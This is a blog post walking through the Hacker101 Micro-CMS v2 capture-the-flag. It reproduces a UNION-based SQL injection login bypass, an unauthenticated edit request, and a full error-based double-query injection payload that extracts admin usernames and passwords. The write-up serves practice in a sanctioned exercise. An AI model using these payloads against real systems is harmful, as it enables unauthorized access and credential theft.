```yaml
---
title: 'Hackerone CTF: Micro-CMS v2'
excerpt: 'The trials of a harder than advertised sql injection ctf.'
coverImage: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
date: '2020-06-01'
ogImage:
  url: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
---
```

The other day, I subumitted a bug to hackerone and I noticed they had a [ctf section](https://www.hacker101.com/). They exercises so far are fun, pretty straight forward, and earn you invites to private bug bounty programs.

I wanted to detail my experience with their `Micro-CMS v2` ctf, the second and more advanced ctf following Micro-CMS v1, because it went from easy to what feels like advanced toot sweet. Where Micro-CMS v1 dealt mostly with XSS, v2 mostly deals with SQL injection.

## Finding Flag0
Unlike v1, any action besides viewing pages redirects you to a login page.
![IMG1](/images/hackerone-ctf-micro-cms-v2/one.gif)

If the login code used something like this to authenticate:

~~~SQL
SELECT * FROM users
WHERE name='%s'
and password='%s'
~~~

Then this would have worked...
![IMG2](/images/hackerone-ctf-micro-cms-v2/two.gif)

But it did not. And it's back to the drawing board.
![IMG3](/images/hackerone-ctf-micro-cms-v2/three.gif)

My first break came when I put a simple singular quote in the user name (`username='`) and submitted. It spit out the following error.
~~~Python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
~~~

Now we know the query for authentication:
~~~SQL
SELECT password FROM admins WHERE username='%s'
~~~

And here's the statement that'll get authenticated:
~~~SQL
SELECT password FROM admins WHERE username='' or '0'='1' UNION ALL SELECT '1234'
~~~
![IMG4](/images/hackerone-ctf-micro-cms-v2/four.gif)
The '0'='1' negates the first select and instead returns `1234` as the value of `password`. And it's after successful login that we are given the first flag.


## Finding Flag1
Now, as authorized users, we can edit pages. This is done via POST request on pages with urls like `/page/edit/1`. I did exactly that, then logged out, repeated the same request, having removed the cookie. And jackpot! Looks like the someone forgot to test auth in the edit page's post request logic.
![IMG5](/images/hackerone-ctf-micro-cms-v2/five.gif)


## Finding Flag2
If this was all there was, I don't think I would be writing this up. It's this next flag that was a real brain-wrinkler. The only hint given to us is this: `Credentials are secret, flags are secret. Coincidence?` So it looks like we need to acquire the login and the password.

The only data we can get from the database seems to be either an error when we create an faulty sql command, like the one that exposed the SQL, or when we attempt to log in. But even then we are either successful thru the UNION injection at which point we are redirected and get no information divulged, or 'Unknown user' or 'Invalid Password' when we try to login unsuccessfully.

So how do we retrieve the credentials?

#### Double Query Injection
They key to this technique is the `GROUP BY` modifier. When combined with the aggregate function like count(*) we produce a `Duplicate entry` error that outputs the data we select for.

This looks complicated, but let's make it easier to parse visually:
~~~SQL
' OR (
	SELECT 1 from (
		select count(*), 
		concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
		 as c from information_schema.tables group by c
		) as a
	) 
AND '1' = '1
~~~

And lets break it down some more:
~~~SQL
concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
~~~
This select statement is our payload, so to speak. You could even pass functions `SELECT database()` if you wanted discover other info. In this case, it'll retrieve our username, and one could increase to LIMIT 1,1 to get the username of the next row.

~~~SQL
as c from information_schema.tables group by c
~~~
`information_schema.tables` is used here because it will reliably have enough rows in it to trigger our duplication, we are not actually retrieving any data from this table

~~~SQL
) as a
~~~
`as a` alias is used because we get this error without it:` OperationalError: (1248, 'Every derived table must have its own alias')`

Feeding this string to the username param and POSTing it returns this error from the server:
![IMG6](/images/hackerone-ctf-micro-cms-v2/six.gif)

So here we have our login, `evalina`.

We do the same request except we change the column of the nested SELECT statement from `username` to `password`. Now we have our credentials, we log in, and the flag is ours.